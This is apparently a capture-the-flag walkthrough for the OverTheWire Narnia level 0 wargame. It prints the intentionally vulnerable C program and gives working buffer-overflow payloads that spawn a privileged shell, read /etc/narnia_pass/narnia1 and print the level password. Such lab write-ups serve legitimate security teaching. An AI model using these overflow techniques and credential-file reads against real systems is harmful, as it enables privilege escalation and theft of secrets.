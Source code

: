 ```bash
┏━•  ~
┗  ssh narnia0@narnia.labs.overthewire.org -p 2226

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password:
Linux narnia 4.18.12 x86_64 GNU/Linux
```
... SNIP BANNER ...

```bash
narnia0@narnia:~$ cat /narnia/narnia0.c
```
```c
/*                                                                                                                               /*
  This program is free software; you can redistribute it and/or modify
  it under the terms of the GNU General Public License as published by
  the Free Software Foundation; either version 2 of the License, or
  (at your option) any later version.

  This program is distributed in the hope that it will be useful,
  but WITHOUT ANY WARRANTY; without even the implied warranty of
  MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
  GNU General Public License for more details.

  You should have received a copy of the GNU General Public License
  along with this program; if not, write to the Free Software
  Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct vals value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}
```

We can quickly see our buffer overflow in the code. The input character buffer (`char buf[20];`) has a length of 20 bytes, while the scanf() allows for 24 bytes (`scanf("%24s",&buf);`) of input leaving us 4 bytes to overflow. 

Looking at the code we can see that val has been assigned the hexadecimal value 0x41414141 (`long val=0x41414141;`), which, when decoded to a string is `AAAA`. It looks like the program expects the user to enter 20 characters then 0xDEADBEEF.

Lets try running the program with 20 A's to see the output.
```bash
narnia0@narnia:/narnia$ ./narnia0                                                                                     Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!
```

Now lets see what happens if we can change `val` to another value by adding 20 A's and 4 B's.
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```
It works! We were able to modify `val`. Now lets try giving the program what it wants. 20 chars, and then 0xdeadbeef. So lets test with the correct payload (i.e. hexstring in reverse 0xefbeadde)

```bash
narnia0@narnia:~$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

###### NOTE: You may be wondering why deadbeef is written backwards ("\xef\xbe\xad\xde"). In x86 and x86-64 (and a variety of other hardware), multi-byte values such as addresses are stored in little-endian order, ie. "backwards" from the viewpoint of a person reading it.

Now that we have privilege escilation lets get the password for narnia1 from /etc/narnia_pass/narnia1.

```bash
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
efeidiedae       # password for narnia1
```

Alternatively, print the string, and copy & paste it to get the the narnia1 shell and grab the password from /etc/ manually.

```bash
narnia0@narnia:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)
AAAAAAAAAAAAAAAAAAAAﾭޯ                             # copy this to paste it
narnia0@narnia:/narnia$ ./narnia0
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭޯ 
buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef                                   # success! 
$ whoami                                          
narnia1                                           
$ cat /etc/narnia_pass/narnia1
efeidiedae                                        # password for narnia1
$
```